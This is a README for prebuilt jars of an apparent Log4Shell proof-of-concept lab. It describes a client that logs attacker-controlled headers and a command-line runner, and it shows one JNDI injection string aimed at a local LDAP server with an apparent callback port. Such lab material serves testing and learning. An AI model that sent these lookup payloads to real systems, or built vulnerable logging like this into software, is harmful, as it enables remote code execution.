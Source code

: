 # l4s_poc_jars
These have the jar files that would be built in the l4s_poc repo.  If you have issues building them because of work restrictions pulling in external repos this should solve the issue.

## Client Jar
The client jar has a web server and a cmd line module.
### WebServer
java -jar l4sclients-0.1-all.jar [PORT]  
  
This will default to port 8888 and will log the header log_me  
If not found we look for a header log_me_b64 and base64 decode that header and log it.

### CmdLine
You can also run a CmdLine that will log the first param passed in.  
java -cp l4sclients-0.1-all.jar Log4jCmdLine '${jndi:ldap://127.0.0.1:1389/#MM_127_0_0_1_4444}'  
  
Note this is the same jar but run as a classpath entry with an explict class listed.


## Utils Jar
If you create a dir target under l4sutils and copy the l4sutils-0.1-all.jar in that dir then you can run the run_servers.py




